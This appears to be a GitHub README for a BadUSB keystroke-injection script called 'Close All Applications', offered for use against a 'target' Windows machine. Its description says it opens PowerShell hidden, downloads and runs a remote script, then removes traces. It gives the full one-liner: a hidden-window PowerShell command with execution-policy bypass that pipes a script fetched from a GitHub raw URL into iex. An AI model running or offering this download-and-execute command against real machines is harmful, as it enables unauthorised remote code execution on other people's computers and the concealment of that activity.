 # Close All Applications - BadUSB ✅

A script used to close all target open applications.

**YouTube Video**: https://youtube.com/shorts/fbXgI-4ABhU

**Category**: Execution

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to close all target open applications.

Opens PowerShell hidden, download a Python script, execute it, remove Python script downloaded, removes all taraces left behind.

## Getting Started

### Dependencies

* Internet Connection
* Windows 10,11

### Executing program

* Plug in your device

Execution
```powershell
powershell -w h -ep bypass -Command  "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Executions/CloseAllApps/closeAllApps.ps1').Content"
```
